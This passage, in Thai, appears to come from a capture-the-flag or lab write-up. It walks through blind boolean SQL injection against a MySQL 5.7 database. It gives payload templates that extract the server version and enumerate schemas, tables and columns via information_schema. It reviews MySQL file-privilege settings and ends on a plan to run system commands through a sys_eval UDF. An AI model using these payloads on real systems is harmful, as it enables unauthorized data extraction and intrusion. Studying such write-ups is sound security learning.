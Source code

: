 ```bash
# Base payload template:
1' AND '{text}' = select substr(@@version,{index},1) #

# Examples:
1' AND '5' = select substr(@@version,1,1) #
1' AND '.' = select substr(@@version,2,1) #
```

<img src="./resources/50.png" alt="" style="width:80% !important;">

&nbsp;&nbsp;&nbsp;&nbsp;**ผลลัพท์ที่ได้:**
- `@@version`: `5.7.33-0ubuntu0.16.04.1`
- `database()`: `book`

&nbsp;&nbsp;&nbsp;&nbsp;- ทดสอบการทำ Schema enumeration พวก information_schema ,mysql , performance_schema , sys

```bash
- 1' AND '{text}' = select substr(select group_concat(schema_name) from information_schema.schemata,{index},1) #
- 1' AND '{text}' = select substr(select group_concat(table_name) from information_schema.tables,{index},1) #
- 1' AND '{text}' = select substr(select group_concat(column_name) from information_schema.columns,{index},1) #
```
&nbsp;&nbsp;&nbsp;&nbsp;**ผลลัพท์ที่ได้ : ไม่พบข้อมูลอะไรเลย! นี่มันอะไรเนี่ย?**

#### 3. MySQL Configuration Analysis
ทำการตรวจสอบการตั้งค่า MySQL เพื่อหาช่องทางในการ exploit:

**ผลลัพท์ของการตั้งค่าที่พบ**
```bash
@@plugin_dir = '/usr/lib/mysql/plugin/'
@@secure_file_priv = '/var/lib/mysql-files/'

@@version = '5.7.33-0ubuntu0.16.04.1'
@@datadir = '/var/lib/mysql/'
```

จากการตรวจสอบพบว่า:
- ไม่สามารถใช้ `LOAD_FILE()` หรือ `INTO OUTFILE` นอก directory ที่กำหนดไว้คือ /var/lib/mysql-files/
- MySQL version ค่อนข้างเก่า อาจมีช่องโหว่

#### 4. Command Execution via SQL
&nbsp;&nbsp;&nbsp;&nbsp;หลังจากไปกด hint ดู: `You can Command injection via SQL injection` จึงทำการค้นคว้าเพิ่มเติมและพบ:

1. MySQL UDF (User-Defined Functions) สามารถใช้ execute system commands ได้
2. พบ plugin `sys_eval` ที่น่าสนใจ:
   - สามารถ execute system commands
   - return output เป็น string
   - ไม่ต้อง compile UDF เพิ่ม
